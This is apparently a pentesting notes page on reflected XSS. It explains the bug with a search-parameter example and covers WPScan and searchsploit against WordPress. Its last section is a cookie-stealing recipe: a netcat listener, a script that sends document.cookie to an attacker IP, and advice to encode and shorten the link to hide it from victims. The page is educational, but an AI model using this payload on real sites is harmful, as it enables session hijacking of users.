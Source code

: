 # 5.3.2 Reflected XSS

## Reflected XSS

{% embed url="https://portswigger.net/web-security/cross-site-scripting/reflected" %}

<figure><img src="../../../.gitbook/assets/image (62).png" alt=""><figcaption><p><a href="https://www.geeksforgeeks.org/what-is-cross-site-scripting-xss/">https://www.geeksforgeeks.org/what-is-cross-site-scripting-xss/</a></p></figcaption></figure>

Reflected cross-site scripting (or XSS) arises when an application receives data in an HTTP request and includes that data within the immediate response in an unsafe way.

Suppose a website has a search function which receives the user-supplied search term in a URL parameter:

`https://insecure-website.com/search?term=gift`

The application echoes the supplied search term in the response to this URL:

`<p>You searched for: gift</p>`

Assuming the application doesn't perform any other processing of the data, an attacker can construct an attack like this:

`https://insecure-website.com/search?term=<script>/*+Bad+stuff+here...+*/</script>`

This URL results in the following response:

`<p>You searched for: <script>/* Bad stuff here... */</script></p>`

If another user of the application requests the attacker's URL, then the script supplied by the attacker will execute in the victim user's browser, in the context of their session with the application.

### Exploiting Reflected XSS Vulnerabilities in WordPress

<details>

<summary>What is WordPress?</summary>

WordPress is a popular open-source content management system (CMS) used for creating websites and blogs. It provides a user-friendly interface and a wide range of plugins and themes, making it easy for users to build and customize their websites without needing extensive technical knowledge. WordPress is highly customizable, scalable, and is used by millions of websites worldwide.

</details>

Mainly by not frequently updating installed themes and plugins versions, vulnerabilities may occur, and this is where the WPScan tool comes in.

WPScan is a security scanner specifically designed to test the security of WordPress websites. It can identify security vulnerabilities in WordPress installations, themes, and plugins. WPScan works by scanning the target website for known security issues, such as outdated software versions, weak passwords, and common configuration errors. It helps website owners and developers identify and fix security flaws to protect their websites from potential attacks and breaches.

We can install it using following command: `sudo apt-get install wpscan`



{% embed url="https://github.com/wpscanteam/wpscan" %}

* Go to wpscan.com, register, login and configure account.
* Generate an API key/token
* Launch scan -> `wpscan --url <Website_URL>`
* See results and search potential exploit on exploitdb using `searchsploit <vulnerability_name>`
* Encode and shorten the link possibly to be sent to the victim (to hiding JS tags)

### Cookie Stealing Via Reflected XSS

* First verify that website is vulnerable to XSS -> `<script>alert("XSS")</script>`
* Take on listening on attacker machine using netcat -> `nc -lvnp 4444`
* Insert payload at the end of website -> n`ew Image() .src='http://<Attacker_IP>:4444/?cookie=' + encodeURI(document.cookie);`
* Encode and shorten the link possibly to be sent to the victim (to hiding JS tags), we can use BurpSuite decoder

<figure><img src="../../../.gitbook/assets/image (61).png" alt=""><figcaption></figcaption></figure>

* Obtain connection on netcat in listening.
